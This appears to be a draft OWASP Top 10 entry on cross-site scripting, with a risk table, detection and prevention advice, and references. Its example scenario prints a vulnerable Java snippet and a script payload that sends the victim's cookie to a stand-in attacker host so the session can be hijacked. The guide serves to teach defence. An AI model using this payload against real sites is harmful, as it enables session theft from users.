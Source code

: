 # A7 Cross Site Scripting

| Threat agents | Exploitability | Prevalance | Detectability | Technical Impact | Business Impacts |
| --- | --- | --- | --- | --- | --- |
| App Specific |  EASY | COMMON | AVERAGE | SEVERE | App Specific | 
| TBA | TBA | TBA | TBA. | TBA |

## Am I vulnerable to attack?

You are vulnerable to Server XSS if your server-side code uses user-supplied input as part of the HTML output, and you don’t use context-sensitive escaping to ensure it cannot run. If a web page uses JavaScript to dynamically add attacker-controllable data to a page, you may have Client XSS. Ideally, you would avoid sending attacker-controllable data to unsafe JavaScript APIs, but escaping (and to a lesser extent) input validation can be used to make this safe.

Automated tools can find some XSS problems automatically. 
However, each application builds output pages differently and uses different browser side interpreters such as JavaScript, ActiveX, Flash, and Silverlight, usually using 3rd party libraries built on top of these technologies. 
This diveristy makes automated detection difficult, particularly when using modern single-page applications and powerful JavaScript frameworks and libraries. 
Therefore, complete coverage requires a combination of manual code review and penetration testing, in addition to automated approaches.

## How do I prevent

Preventing XSS requires separation of untrusted data from active browser content.

1. Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve [Server XSS](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting#Server_XSS) vulnerabilities. The [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) has details on the required data escaping techniques.

2. Applying context sensitive encoding when modifying the browser document on the client side acts against [client XSS](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting#Client_XSS). When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).

3. Enabling a [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)) (CSP) and moving inline javascript code to additional files will defend against XSS across the entire site, assuming no other vulnerabilities (such as upload path tampering or download path traversal) exist that would allow placing malicious code in the server files.

## Example Scenarios

The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

The attacker manipulates the ‘CC’ parameter in his browser to:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session. 
Note that attackers can also use XSS to defeat any automated CSRF defense the application might employ. See 2017-A8 for information on CSRF.

## References

### OWASP
* [OWASP Proactive Controls - TBA]()
* [OWASP Application Security Verification Standard - TBA]()
* [OWASP Testing Guide: 1st 3 Chapters on Data Validation Testing]()
* OWASP Types of Cross-Site Scripting
* OWASP XSS Prevention Cheat Sheet
* OWASP DOM based XSS Prevention Cheat Sheet
* OWASP XSS Filter Evasion Cheat Sheet
### External
* CWE Entry 79 on Cross-Site Scripting
* Do we have a non-vendor reference for this? [PortSwigger: Client-side template injection](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
